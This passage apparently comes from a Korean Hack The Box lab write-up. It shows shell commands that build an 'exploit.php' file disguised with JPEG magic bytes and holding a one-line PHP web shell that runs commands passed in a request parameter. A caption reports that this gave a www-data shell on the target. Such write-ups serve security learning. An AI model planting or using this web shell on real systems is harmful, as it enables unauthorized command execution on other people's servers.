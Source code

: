 <br>

```zsh
└─# echo 'FF D8 FF E0 00 10 4A 46 49 46 00 01' | xxd -p -r > exploit.php
└─# echo '<?php system($_REQUEST[0]); ?>' >> exploit.php
└─# cat exploit.php
JFIF<?php system($_REQUEST[0]); ?>
```

<img src='assets/post/2025/Playground/Hack The Box/Environment/13.png' width=1200 alt=''>

<br>

- 웹 쉘을 이용하여 대상 호스트의 `www-data` 쉘 획득에 성공했다.  
